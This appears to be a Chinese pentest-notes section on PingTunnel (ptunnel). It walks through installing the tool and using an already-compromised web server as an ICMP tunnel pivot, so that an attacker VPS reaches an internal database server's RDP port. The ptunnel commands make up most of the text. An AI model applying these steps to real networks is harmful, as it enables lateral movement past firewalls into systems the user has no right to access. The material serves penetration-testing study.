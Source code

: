 
**2.PingTunnel**
```bash
# 下载地址：http://freshmeat.sourceforge.net/projects/ptunnel/
# 貌似可以这么安装：sudo apt install ptunnel
# 可跨平台使用。为了避免滥用，可为隧道设置密码

# 情景：得到的内网主机无法3389连接到数据库服务器，但是可以ping通。我们需以此机器为跳板访问另体贴数据库服务器

# 首先在两台机器都安装上此工具
## 安装方法
#1.安装编译
tar -zxvf ...
cd ...
make && make install
#2.如果缺少pcap.h(数据包捕获函数库),就安装
wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz
tar -zxvf ...
cd ...
./configure
#3.如果yacc包错误，安装
sudo apt-get install -y byacc
sudo apt-get install flex bison
#好了之后再安装一遍
./configure
make && make install
# 查看帮助信息
man pcap


## 使用方法
#4.运行PingTunnel(现在是linux上使用，也可在win上使用，只不过需要在内网的win服务器安装wincap类库)
# 跳板机器(假设是已获取到的web服务器)：
ptunnel -x shuteer111
# VPS上：
ptunnel -p <跳板_IP> -lp 1080 -da <另一新目标_IP> -dp 3389 -x shuteer111
# 含义：在访问本地的1080端口时，会把数据库服务器(新目标)的3389数据封装在icmp隧道中，以web服务器为'ICMP隧道跳板'进行传送(窗口会显示是本地的ip，但是实际是另一台数据库服务器的)

#5.在攻击机器访问本地的1080端口，成功访问到另一台数据库服务器的3389端口

```
参数说明：
```bash
-x    # 指定icmp隧道连接验证密码
-p    # 指定icmp隧道另一端机器(跳板)的ip地址
-lp   # 指定要监听的本地tcp端口

-da   # 指定要转发的机器的ip地址
-dp   # 指定要转发的机器的tcp端口
```

